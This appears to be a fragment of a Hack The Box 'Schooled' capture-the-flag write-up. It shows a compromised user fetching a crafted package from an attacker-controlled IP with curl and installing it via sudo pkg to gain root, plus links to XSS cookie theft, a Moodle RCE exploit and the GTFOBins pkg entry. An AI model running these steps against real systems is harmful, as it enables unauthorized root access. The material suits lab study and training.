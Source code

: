   [root:/git/htb/schooled]# python3 -m http.server 80

  jamie@Schooled:~ $ curl http://10.10.14.12/x-1.0.txz --output x-1.0.txz
      % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                     Dload  Upload   Total   Spent    Left  Speed
    100   472  100   472    0     0   6051      0 --:--:-- --:--:-- --:--:--  6051

  jamie@Schooled:~ $ sudo pkg install -y --no-repo-update ./x-1.0.txz
    pkg: Repository FreeBSD has a wrong packagesite, need to re-create database
    pkg: Repository FreeBSD cannot be opened. 'pkg update' required
    Checking integrity... done (0 conflicting)
    The following 1 package(s) will be affected (of 0 checked):

    New packages to be INSTALLED:
    	x: 1.0

    Number of packages to be installed: 1
    [1/1] Installing x-1.0...
    bdf19103f786cf0b8a3be335ba0fabdf
    Extracting x-1.0: 100%

Report the flag, done deal!


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██╗███╗   ██╗███████╗ ██████╗ ██████╗ ███╗   ███╗ █████╗ ████████╗██╗ ██████╗ ███╗   ██╗
   ██║████╗  ██║██╔════╝██╔═══██╗██╔══██╗████╗ ████║██╔══██╗╚══██╔══╝██║██╔═══██╗████╗  ██║
   ██║██╔██╗ ██║█████╗  ██║   ██║██████╔╝██╔████╔██║███████║   ██║   ██║██║   ██║██╔██╗ ██║
   ██║██║╚██╗██║██╔══╝  ██║   ██║██╔══██╗██║╚██╔╝██║██╔══██║   ██║   ██║██║   ██║██║╚██╗██║
   ██║██║ ╚████║██║     ╚██████╔╝██║  ██║██║ ╚═╝ ██║██║  ██║   ██║   ██║╚██████╔╝██║ ╚████║
   ╚═╝╚═╝  ╚═══╝╚═╝      ╚═════╝ ╚═╝  ╚═╝╚═╝     ╚═╝╚═╝  ╚═╝   ╚═╝   ╚═╝ ╚═════╝ ╚═╝  ╚═══╝


XSS Admin Cookie:
  https://infinitelogins.com/2020/10/13/using-cross-site-scripting-xss-to-steal-cookies/

Moodle Teacher to RCE:
  https://github.com/HoangKien1020/CVE-2020-14321
  https://www.youtube.com/watch?v=BkEInFI4oIU

Pkg privesc / root.txt:
  https://gtfobins.github.io/gtfobins/pkg/
